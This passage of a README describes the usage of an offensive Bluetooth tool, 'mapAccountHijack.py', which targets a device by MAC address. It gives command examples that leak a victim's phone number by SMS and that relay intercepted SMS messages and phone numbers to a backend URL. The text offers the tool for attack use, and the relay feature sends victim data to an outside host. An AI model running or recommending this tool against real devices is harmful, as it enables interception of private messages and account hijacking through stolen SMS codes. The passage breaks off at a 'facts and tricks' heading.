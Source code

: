 Now you can use the tool!

## Usage
Before using enable the virtual environment of the tool:

```sh
source ${tool_installation_path}/.venv/bin/activate
```

Run the following command to display the help information:

```sh
python3 mapAccountHijack.py --help
```

```console
usage: mapAccountHijack.py [-h] --address ADDRESS --dest-dir DEST_DIR [--phone-number PHONE_NUMBER] [--sms-content SMS_CONTENT] [--backend BACKEND]

Map Account Hijack

options:
  -h, --help            show this help message and exit
  --address ADDRESS     MAC address of the target device
  --dest-dir DEST_DIR   Destination directory, local, required
  --phone-number PHONE_NUMBER
                        Phone number. If provided an SMS message will be sent to leak the phone number of a victim
  --sms-content SMS_CONTENT
                        SMS content, reserved for future functionality
  --backend BACKEND     Backend URL to relay information, if not provided the relay will not happen
```

#### Run the tool

1. The following command will connect to AA:BB:CC:DD:EE:FF and try to exploit it without relaying newly arrived SMS messages and phone numbers it was able to retrieve. It won't send an SMS message to another device
```sh
python3 mapAccountHijack.py --address AA:BB:CC:DD:EE:FF --dest-dir ./out
```
2. Connect to AA:BB:CC:DD:EE:FF and try to send an SMS message to the phone number +1234567890
```sh
python3 mapAccountHijack.py --address AA:BB:CC:DD:EE:FF --dest-dir ./out --phone-number +1234567890
```
3. Connect to AA:BB:CC:DD:EE:FF and relay all the leaked phone numbers and newly arrived SMS messages to a backend url (Will receive POST requests with JSON data: content - data, type - type of the data relayed)
```sh
python3 mapAccountHijack.py --address AA:BB:CC:DD:EE:FF --dest-dir ./out --backend http://127.0.0.1:8080/
```

## A few facts and tricks
